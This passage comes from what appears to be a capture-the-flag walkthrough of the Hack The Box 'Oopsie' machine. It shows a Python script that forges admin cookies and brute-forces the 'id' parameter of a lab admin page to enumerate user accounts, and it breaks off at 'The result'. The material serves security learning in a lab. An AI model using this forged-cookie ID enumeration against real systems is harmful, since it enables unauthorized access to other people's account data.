 ## <u>The ID</u>

![10](/assets/images/htb/oopsie/10.png)

- This page appear to be `user table` base on the `id parameter` in the link
- Making `python script` for IDs brute-force 

# <u>2:Foothold/Gaining Access</u>

## <u>Python Script</u>
- python script for ID brute force
- need cookies for authentication

```python
#!/usr/bin/env python3

import requests

for i in range(101):
    url = f"http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id={i}"
    c = {'user':'34322','role':'admin'}
    r = requests.get(url, cookies=c)

    if len(r.content) == 3595: # nothing appear just pass it
        pass
    else:
        print(f"Check this ID out {i}")
print("Done")
```
- The result
